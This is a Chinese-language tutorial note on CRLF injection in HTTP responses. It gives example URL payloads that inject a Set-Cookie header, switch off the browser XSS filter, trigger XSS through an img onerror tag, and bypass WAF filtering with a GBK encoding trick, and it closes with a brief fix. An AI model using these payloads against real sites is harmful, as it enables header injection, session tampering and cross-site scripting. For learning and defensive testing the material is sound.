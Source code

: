 - [CRLF Inject](#crlf-inject)
  - [绕过XSS Filter](#绕过xss-filter)
  - [XSS](#xss)
  - [GBK编码](#gbk编码)
  - [修复方案](#修复方案)
# CRLF Inject
CRLF代表特殊字符回车符（\r）和换行符（\n），这是特定操作系统（如Windows）中使用的两个元素，以及各种互联网协议（如HTTP）。回车符表示行的末尾，而换行符表示新行。

通常，CRLF组合的目的是指示文本流中的对象结束或开始的位置。例如，当客户端（浏览器）请求网站上的内容时，服务器会返回带有称为响应正文的 HTTP 标头的内容。响应中的标头通过 CR 和 LF 与实际网站内容分开.  

![](2022-10-19-17-41-18.png)  
但是，CRLF 字符序列可能被恶意用作 CRLF 注入攻击。此攻击是在应用程序层进行的服务器端注入。

通过利用服务器中的 CRLF 注入漏洞（允许用户从不受信任的源输入），攻击者可以拆分文本流并引入未经中和或清理的恶意内容。
## 绕过XSS Filter
通过注入一个CRLF就可以注入Header到响应的body中，因为浏览器是以\r\n来分割每一行的,而`\r\n`的url编码即为`%0d%0a`.
比如url:`http://www.domain.com/returnurl=http://baidu.com`  
响应如下：
```http
HTTP/1.1 302 Moved Temporarily 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location: http://baidu.com
```
returnurl的值为设置为了302跳转的Location值，插入到了Header中，这个时候就可以在returnurl中注入CRLF.  
如:`http://www.domain.com/returnurl=%0d%0aSet-cookie:test%3Dhttp://baidu.com`
响应就会如下:
```http
HTTP/1.1 302 Moved Temporarily 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Set-cookie:test
Location: http://baidu.com
```  
就可以成功注入一个`Set-cookie`Header在响应头中，同理可以注入任意的Header。
当遇到浏览器Filter，开启了`X-XSS-Protection:1`时，浏览器会对XSS进行拦截，通过CRLF可以直接注入一个`X-XSS-Protection=0`来直接关闭XSS Filter。
## XSS
通过注入两个CRLF，既可以造成XSS，因为浏览器是以两个CRLF来将Header和Body进行区分解析的。
比如URL:`http://www.domain.com/returnurl=%0d%0a%0d%0a<img src=1 onerror=alert(/xss/)>`  
响应就会如下:
```http
HTTP/1.1 302 Moved Temporarily 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Set-cookie:test\r\n
\r\n
<img src=1 onerror=alert(/xss/)>
```  
最终导致XSS。
## GBK编码
有些WAF会对`%0d%0a`进行拦截，可以考虑使用GBK编码绕过。   
Payload: CRLF ---> 嘍嘊(GBK) ---> `%E5%98%8D%E5%98%8A`(URLEncode)  
exp:`https://subDomain/%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=test`  
[$6000 with Microsoft Hall of Fame | Microsoft Firewall Bypass | CRLF to XSS | Microsoft Bug Bounty](https://infosecwriteups.com/6000-with-microsoft-hall-of-fame-microsoft-firewall-bypass-crlf-to-xss-microsoft-bug-bounty-8f6615c47922)
## 修复方案
过滤\r 、\n之类的换行符，避免输入的数据污染到其他HTTP头。